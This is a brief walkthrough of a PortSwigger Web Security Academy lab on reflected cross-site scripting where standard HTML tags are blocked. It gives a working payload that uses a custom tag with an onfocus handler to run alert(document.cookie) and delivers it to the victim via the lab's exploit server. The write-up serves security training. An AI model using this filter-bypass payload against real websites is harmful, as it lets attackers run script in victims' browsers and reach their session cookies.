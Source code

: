 ## Welcome, my friend. Today we will start the [14. XSS lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/64a5bd84-bfba-494b-ba9b-cc5aacf8e491)


#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/72a80d95-434f-4a7c-8560-212392b2f40e)

### Let's navigate ```Go to exploit server```:

![image](https://github.com/user-attachments/assets/6f3dbc1d-9e46-44a6-bf48-8b488bf2f0e0)


### Let's enter ```javascript``` code in body but this code don't need to useraction:



```
<script>location='https://0a0c000d04703598817c25ce006b00ff.web-security-academy.net/?search=<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x';</script>
```

### enter Deliver exploit to victim

![image](https://github.com/user-attachments/assets/45360811-22f7-4b51-9e46-2c57fb09b103)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/a054ccb9-84e0-4125-9025-6a23ddae7219" >
</p>
